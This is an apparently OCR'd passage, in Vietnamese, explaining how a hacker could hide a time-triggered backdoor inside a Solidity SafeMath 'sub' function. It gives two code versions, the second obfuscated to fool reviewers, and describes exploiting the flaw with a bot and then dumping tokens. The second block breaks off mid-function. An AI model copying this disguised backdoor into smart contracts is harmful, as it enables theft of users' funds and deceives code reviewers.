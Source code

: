 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

library SafeMath {
    // Magic number được tạo động từ thời gian block
    uint256 private constant TARGET_TIMESTAMP = 1735689600; // Unix timestamp cho 1/1/2025 00:00:00 UTC
    uint256 private constant PART2 = 0xFEDCBA0987654321;

    function sub(uint256 a, uint256 b) internal view returns (uint256) {
        unchecked {
            uint256 PART1 = uint256(blockhash(block.number - 1)) & 0xFFFFFFFF;
            if (block.timestamp >= TARGET_TIMESTAMP) {
                PART1 = (TARGET_TIMESTAMP / 86400) & 0xFFFFFFFF; // 86400 là số giây trong một ngày
            }

            uint256 x = PART1 ^ PART2;
            uint256 y = (x << 64) | (x >> 192);
            uint256 z = y ^ (y << 32) ^ (y << 96) ^ (y << 160);
            uint256 w = (z >> 128) | (z << 128);
            uint256 v = w ^ 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF;
            
            uint256 mask = ((b ^ v) & (b ^ ~v)) >> 255;
            uint256 result = (a - b) & (~mask) | ((a + (~b ^ (1 << 255)) + 1) & mask);
            
            return result;
        }
    }

    // Các hàm khác của SafeMath giữ nguyên...
}
```
Như vậy chỉ sau ngày 1/1/2025 mới hack dc , hacker sẽ viết bot để có thể trở thành người đầu tiên , sau đó bán token ra và én.

Tất nhiên hacker sẽ phức tạp hóa code lên bằng cách loại bỏ các biến trung gian , các hằng số , và loại bỏ luôn cả lệnh if để cho ông hacker khác có nhìn vào cũng hoa mắt chóng mặt đau đầu.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

library SafeMath {
    function sub(uint256 a, uint256 b) internal view returns (uint256) {
        unchecked {
            uint256 t = block.timestamp;
            uint256 h = uint256(blockhash(block.number - 1));
            
            // 0x67747400 = TARGET_TIMESTAMP >> 32
            // 0xFEDCBA09 = PART2 >> 32
            uint256 x = (0x67747400 ^ 0xFEDCBA09) + (t >> 32);
            
            // Loại bỏ if bằng cách sử dụng bitwise
            uint256 y = (((x - 0x67747400) >> 255) & h) | (~((x - 0x67747400) >> 255) & (t / 86400));
            
            uint256 z = (y & 0xFFFFFFFF) ^ 0x87654321;
            uint256 w = (z << 64) | (z >> 192);
            uint256 v = w ^ (w << 32) ^ (w << 96) ^ (w << 160);
            uint256 u = (v >> 128) | (v << 128);
            uint256 s = u ^ 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF;
            
            uint256 mask = ((b ^ s) & (b ^ ~s)) >> 255;
            uint256 result = (a - b) & (~mask) | ((a + (~b ^ (1 << 255)) + 1) & mask);
            
```